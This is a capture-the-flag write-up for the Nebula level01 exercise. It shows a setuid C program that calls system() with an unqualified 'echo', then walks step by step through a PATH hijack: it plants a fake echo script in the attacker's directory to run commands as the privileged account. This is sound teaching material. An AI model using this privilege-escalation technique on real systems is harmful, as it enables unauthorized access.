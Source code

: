 ## Challenge
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

## Solution
This is the source code for `/home/flag01/flag01`
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
Note the executable has a setuid bit.
```shell
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
```
This is the interesting line in the source code.
```c
system("/usr/bin/env echo and now what?");
```
Notice how `/usr/bin/env` is called using it's full path, as opposed to `echo`.

We can exploit this fact to execute a `search-order-hijack` attack.

When an executable is mentioned without full path the system will search
the directories listed in the `PATH` environment variable for it.
```shell
level01@nebula:/home/flag01$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
We can use `env` to set the variable to a directory of our choosing.
```shell
level01@nebula:/home/flag01$ env PATH=/home/level01 ./flag01
/usr/bin/env: echo: No such file or directory
```
Now create a file to replace echo, this file will execute `getflag`
```shell
level01@nebula:/home/flag01$ whereis getflag
getflag: /bin/getflag
level01@nebula:/home/flag01$ echo "/bin/getflag" > /home/level01/echo; chmod 777 /home/level01/echo
```
And run `flag01` again.
```shell
level01@nebula:/home/flag01$ env PATH=/home/level01 ./flag01
You have successfully executed getflag on a target account
```
